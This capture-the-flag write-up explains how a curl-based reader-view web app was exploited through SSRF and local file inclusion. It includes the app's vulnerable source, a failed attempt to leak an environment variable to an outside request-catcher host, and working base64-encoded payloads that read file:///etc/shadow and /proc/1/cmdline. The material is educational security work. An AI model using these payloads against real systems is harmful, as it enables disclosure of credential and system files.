



# Curl Up and Read
**Category**: Web

**Level**: Hard

**Points**: 500

**Description**:
```markdown
This app will show the reader view of any website you enter! No more ads, cookie nags, and paywalls, just content.

https://curl.sdc.tf/

[page.tsx]
```

## Writeup
There wasn't much in the description, but the challenge author was kind enough to give us the source code for the application!! I first took a look at the website, and it was pretty straightforward - enter a link, and it will show the page for you. This was the definition of an [SSRF vulnerability](https://portswigger.net/web-security/ssrf), but since the challenge was listed as "Hard", I knew there was more to it. Since the challenge had `Curl` in the description, I guessed it had to do with exploiting cURL. I created a [custom subdomain on Request Catcher](https://asdfasdfsdfsdf.requestcatcher.com/) and input the link to it in the form just to see what kind of headers were included. 



The first thing that caught my eye was the version of cURL listed - `curl/7.68.0`. A quick Google search revealed that this version came out in 2020 (2 years old) and had [more than a handful of CVEs](https://curl.se/docs/vuln-7.68.0.html) that it was vulnerable to! I started reading through CVE reports, but nothing really stood out to me as being useful in a CTF. This is when I decided it was probably a good idea to take a look at the source code.

`page.tsx` was written in TypeScript (which I wasn't super familiar with), but it's pretty much JavaScript so I got by. The important part of the code was this:

```typescript
export const getServerSideProps: GetServerSideProps = async (context) => {
    // validate the input through a STRICT series of checks
    const pageEncoded = context.params?.page;
    if (!pageEncoded || typeof pageEncoded !== 'string')
        return {notFound: true};
    const pageDecoded = new Buffer(pageEncoded, 'base64').toString('ascii');
    if (!pageDecoded)
        return {notFound: true};
    const pageParsed = JSON.parse(pageDecoded);
    if (!pageParsed)
        return {notFound: true};
    if (!validate(pageParsed))
        return {notFound: true};

    const options = {
        timeout: 2000, // kill if the download takes longer than two seconds
        env: {...process.env, FLAG: 'REDACTED'} // even if CURL is somehow pwned, it won't have access to the flag
    }

    // download the requested webpage
    const output = execFileSync('curl', ['-s', pageParsed.url], options);
    if (!output)
        return {notFound: true};

    // parse the webpage using JSDOM and Readability
    // JSDOM does NOT execute any JS by default
    const doc = new JSDOM(output.toString(), {url: pageParsed.url});
    const reader = new Readability(doc.window.document);
    const content = reader.parse();
    if (!content)
        return {notFound: true};

    // return the reader view content
    return {props: content};
}
```

So the gist of the code is this - it took a base64 string, decoded it, and parsed it as JSON. If the string provided couldn't do those, it was rejected. Once the URL was parsed, it was passed into a `validate` function that pretty much just used an AJV function to ensure that it really was a valid URL. Then, it threw the URL into the `execFileSync()` function with `cURL` and showed the output (without executing JavaScript, so XSS wasn't possible). The part that really stood out to me was that the flag was stored in an environmental variable, so if I could access that variable, I could get the flag! You'll notice that in the source code, it sets `FLAG` to `REDACTED`. I figured this was just in the copy of the source code that we got, but it wasn't until later that `FLAG` was an actual environmental variable already defined, this was just overriding it so that it couldn't be accessed from the site (supposedly). 

The first thing I tried was putting in the URL `https://asdfasdfsdfsdf.requestcatcher.com/test$FLAG` because in a Bash shell, this would append the value for the flag to the end of the URL. I even tested it myself, and it worked! However, all I could see from Request Catcher was the path as `/test$FLAG` - it wasn't being interpreted as a variable :( sad days! I did some research to see if there was some sort of syntax I needed to use and why it didn't work, and after looking at [the documentation](https://nodejs.org/api/child_process.html#child_processexecfilesyncfile-args-options) for `execFileSync`, I realized that a shell wasn't spawned, and that's why it didn't work. If the `spawn()` function would've been used, I could've used that payload. In fact, using `execFileSync()` also protected it from parameter injection and command injection. So that wasn't going to work!

I took a step back and re-read the challenge name and description (which is ALWAYS a good thing to do and oftentimes reveals you didn't read close enough!) and the title "Curl Up and Read" gave me an idea. Maybe I was going for read access on the machine? I quickly typed in `file:///etc/shadow` and the browser told me it did not think that was a URL. Well, client-side authentication is never secure, so I instead put into a JavaScript object `{"url":"file:///etc/shadow"}`, base64 encoded it `eyJ1cmwiOiJmaWxlOi8vL2V0Yy9zaGFkb3cifQ==`, and inserted it directly into the URL. To my surprise, I saw it!! The file was shown!



Okay, so I had read access on to the machine as the root user. Again, I had thought that the password was actually stored in the `page.tsx` file, so I tried locating that file, but was unsuccessful. I knew that the `/proc/` directory was a thing and likely stored environmental variables there, so I started to look around. Using the location `file:///proc/1/cmdline` (https://curl.sdc.tf/read/eyJ1cmwiOiJmaWxlOi8vL3Byb2MvMS9jbWRsaW5lIn0=) revealed the flag stored in the commandline!! 



**Flag** - `sdctf{CURL_up_aNd_L0c@L_F1le_incLuSi0N}`

## Real-World Application
One of the biggest things I learned was that you could get local files from `cURL`! I even had to test it using my cURL on my local machine to make sure I wasn't going crazy, and I wasn't! It's those small details that can make all the difference. Although I pursued various paths that ended up not panning out, I still don't regret it because I learned about the `execFileSync` function, read through some CVEs, and had fun! 

When implementing a web server, especially with a service like this one, it's always important to test your server-side checks because client-side authentication is <i>never</i> secure. In this case, they simply trusted that the JavaScript library that was meant for checking for valid URLs would protect them and probably didn't give it a second thought. Bad idea!! Always test it yourself!